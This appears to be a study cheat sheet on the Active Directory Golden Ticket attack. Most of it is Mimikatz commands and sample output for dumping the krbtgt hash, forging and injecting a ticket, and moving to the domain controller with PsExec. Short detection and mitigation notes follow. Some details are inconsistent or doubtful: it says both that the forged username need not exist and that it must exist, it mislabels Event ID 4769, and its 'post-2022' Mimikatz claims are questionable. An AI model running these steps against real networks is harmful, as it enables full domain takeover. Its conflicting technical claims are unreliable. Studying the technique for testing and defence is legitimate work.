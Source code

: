 # Golden Ticket

- **What It Is:**  
    The **Ticket Granting Ticket (TGT)** is encrypted using a secret key tied to a special domain account called **krbtgt**.
- **Golden Ticket Attack:**  
    If an attacker obtains the **krbtgt password hash**, they can forge their own TGTs—called **Golden Tickets**. With these, they could impersonate any user (even making themselves a Domain Admin) and access all domain resources.
- **Why It’s Dangerous:**  
    Unlike user passwords that change regularly, the **krbtgt** password isn’t automatically changed, so older hashes may still be valid. This makes it a critical asset to protect.
Although this technique's name resembles the Silver Ticket one that we encountered in the Attacking Authentication Module, Golden Tickets provide a more powerful attack vector. While **Silver Tickets** aim to forge a TGS ticket to access a _specific_ service, **Golden Tickets** give us permission to access the _entire_ domain's resources, as we'll see shortly.
This provides a neat way of keeping persistence in an Active Directory environment, but the best advantage is that the _krbtgt_ account password is not automatically changed.
Here's a concise **Golden Ticket Cheat Sheet** with key prerequisites, examples, and detection/mitigation guidance:


#### **Prerequisites**  
1. **krbtgt Hash**:  
   - Extract the NTLM hash of the `krbtgt` account (requires **Domain Admin** or **DC compromise**).  
2. **Domain SID**:  
   - Obtain the domain Security Identifier (e.g., `S-1-5-21-1987370270-658905905-1781884369`).  
3. **Mimikatz Access**:  
   - Run Mimikatz on any domain-joined machine (no admin needed for ticket injection).  



### **Steps & Examples**  

#### **1. Extract krbtgt Hash (Domain Controller)**  
```powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /patch
```
**Output**:  
```
User : krbtgt  
NTLM : 1693c6cefafffc7af11ef34d1c788f47  
```

---

#### **2. Create Golden Ticket**  
```powershell
mimikatz # kerberos::purge          # Delete existing tickets
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```  
- **/user**: Arbitrary username (doesn’t need to exist).  
- **/krbtgt**: krbtgt account’s NTLM hash.  
- **/ptt**: Inject ticket into memory.  

---

#### **3. Verify Ticket**  
```powershell
klist  # Check cached tickets
```  
**Expected Output**:  
```
#0> Client: jen @ corp.com  
    Server: krbtgt/CORP.COM @ CORP.COM  
    Encryption: rc4_hmac_nt  
```

---

#### **4. Lateral Movement (PsExec)**  
```powershell
PsExec.exe \\dc1 cmd.exe   # Use hostname (Kerberos)
```  
**Verify Access**:  
```powershell
whoami /groups   # Check Domain Admins membership
```  

---

### **Key Notes**  
- **Lifetime**: Golden tickets are valid for **10 years** by default.  
- **Stealth**:  
  - Bypass MFA and password changes.  
  - Use hostnames (Kerberos) – IPs force NTLM (blocked).  
- **Post-2022 Updates**:  
  - Mimikatz now requires `/krbtgt` instead of `/rc4`.  
  - Tickets must reference an existing user (e.g., `jen`).  

---

### **Detection**  
- **Event ID 4769**: TGT requests with non-krbtgt encryption (e.g., `rc4_hmac`).  
- **Anomalies**:  
  - Users added to privileged groups without logon events.  
  - TGTs with extreme lifetimes (e.g., 10 years).  

---

### **Mitigation**  
1. **Rotate krbtgt Password Twice**:  
   - Prevents golden ticket reuse.  
2. **Enable AES Encryption**:  
   - Disable RC4-HMAC in Kerberos.  
3. **Monitor**:  
   - Kerberos ticket anomalies with SIEM tools.  

---

### **Example Workflow**  
1. Compromise DC → Dump `krbtgt` hash.  
2. On workstation:  
   ```powershell
   mimikatz # kerberos::golden /user:jen [...] /ptt
   PsExec \\dc1 cmd.exe
   ```  
3. Gain Domain Admin access.  

---

### **References**  
- **MITRE ATT&CK**: [T1558.001](https://attack.mitre.org/techniques/T1558/001/)  
- [Microsoft Kerberos Docs](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)  
